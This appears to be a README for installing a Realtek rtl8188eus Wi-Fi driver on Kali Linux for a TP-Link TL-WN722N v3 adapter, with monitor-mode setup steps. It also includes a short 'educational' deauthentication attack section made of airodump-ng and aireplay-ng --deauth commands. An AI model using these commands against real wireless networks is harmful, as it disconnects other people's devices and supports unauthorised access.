 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux



sudo apt install bc

sudo rmmod r8188eu.ko

git clone https://github.com/aircrack-ng/rtl8188eus

cd rtl8188eus

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

make

sudo make install

sudo modprobe 8188eu



To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

Sudo modprobe 8188eu

Disconnect the device and connect again..
